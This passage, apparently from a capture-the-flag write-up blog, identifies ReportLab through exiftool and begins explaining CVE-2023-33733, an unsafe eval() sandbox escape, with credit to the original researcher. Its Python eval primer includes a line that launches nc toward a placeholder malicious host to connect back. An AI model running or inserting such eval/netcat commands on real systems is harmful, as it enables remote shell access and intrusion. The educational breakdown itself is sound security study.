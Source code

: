 ```shell
exiftool output.pdf
```

-   {{< figure src="/ox-hugo/2025-04-17-080042_.png" >}}

Some quick searching online reveals some CVE's namely [CVE-2023-33733](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33733)


### CVE-2023-33733 Breakdown: {#cve-2023-33733-breakdown}

Buckle up as we are going into great detail as to why this exploit works and the mechanisms around it, I would urge you to read the below links as well to really understand what is happening under the hood here as it will greatly increase your understanding. However if you just want to skip to the end and run the exploit by all means do, but if you do not understand why this works you are doing yourself a disservice.

Some recommended reading:

-   <https://socradar.io/cve-2023-33733-vulnerability-in-reportlab-allows-bypassing-sandbox-restrictions/>
-   <https://github.com/c53elyas/CVE-2023-33733>

This took me a long while to understand this so I a have tried to explain it as simply as I can below for others to understand.

+Important+:

-   I also want to be VERY clear, I am just explaining the great work done by c53elyas I lay no claim to it myself, this is just a means to understand the work.
-   If there is anything wrong please do send me an email to correct me bloodstiller@bloodstiller.com


#### The Vulnerability: Unsafe "eval" {#the-vulnerability-unsafe-eval}


##### eval Primer: {#eval-primer}

First of all, what is `eval()` and what does it do?

`eval()` takes text and runs it as Python code.

Here is a simple Example:

```python
eval("2 + 2")
# Runs this as code, gives 4

eval("print ('hello world')")
# Run this and it will print hello world
```

Bad guys love `eval()` because it allows the running of os level commands like the below by using the `os` module

```python
eval("__import__('os').system('calc.exe')")
# This will open Calculator on Windows!

eval("__import__('os').system('/usr/bin/firefox -browser http://google.com')")
#This will open firefox and open google.com

eval("__import__('os').system('/bin/nc http://[maliciousHost]:[Port]')")
#This could be used to launch nc and connect back to a malcious endpoint
```
